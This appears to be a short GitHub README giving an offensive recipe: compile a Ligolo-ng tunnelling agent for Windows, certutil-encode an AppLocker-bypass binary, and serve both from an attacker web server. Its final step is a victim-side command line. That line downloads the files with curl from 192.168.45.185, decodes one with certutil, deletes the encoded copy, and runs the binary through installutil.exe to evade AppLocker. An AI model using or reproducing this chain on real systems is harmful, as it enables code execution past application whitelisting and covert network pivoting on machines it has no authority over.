 # Step 1: Modify the Ligolo-ng agent's main file
  Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

# Step 2: Compile the agent 
  Use the following command to compile: 
  GOOS=windows go build -o agent.exe cmd/agent/main.go

# Step 3: Encode the ApplockerBypassExternalBinary executable with certutil 
  certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.

# Step 4: Execution on the Target Machine
  Name the agent executable `ligolo-agent.exe` 
  Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

# Step 5: Execution in Action! 
  On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/  AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
